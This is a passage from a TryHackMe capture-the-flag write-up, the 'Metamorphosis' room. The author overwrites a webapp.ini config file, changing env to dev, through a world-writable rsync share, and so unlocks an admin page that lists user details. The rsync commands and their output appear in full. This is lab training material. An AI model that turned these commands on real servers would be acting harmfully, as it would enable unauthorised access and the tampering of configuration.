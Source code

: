 **Then combine the HTML comment:**
```html
<!-- Make sure admin functionality can only be used in development environment. -->
```

**Hmm... Can we modify the `env` key's value from `prod` to `dev`?**
```shell
[Web_App]
env = dev
user = tom
password = {Redacted}

[Details]
Local = No
```

**Then upload the modified `webapp.ini` via `rsync`:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# rsync -av rsync_shared_Conf/webapp.ini rsync://$RHOSTS/Conf/webapp.ini
sending incremental file list
webapp.ini

┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# rsync -av --list-only rsync://$RHOSTS/Conf                                                         
receiving incremental file list
drwxrwxrwx          4,096 2023/01/11 01:49:38 .
-rw-r--r--          4,620 2021/04/09 16:01:22 access.conf
-rw-------              0 2023/01/11 01:40:40 anything
-rw-r--r--          1,341 2021/04/09 15:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 16:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 16:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 16:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 15:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 15:56:56 php.ini
-rw-r--r--            320 2021/04/09 16:03:16 ports.conf
-rw-r--r--            589 2021/04/09 16:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 16:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 16:00:59 smb.conf
-rw-rw-r--             71 2023/01/11 01:49:19 webapp.ini
```

**Now, we should able to gain access to the admin page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015332.png)

Nice!!

**In `/admin/index.php`, we can get info of users. Let's try `tom`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015418.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015432.png)
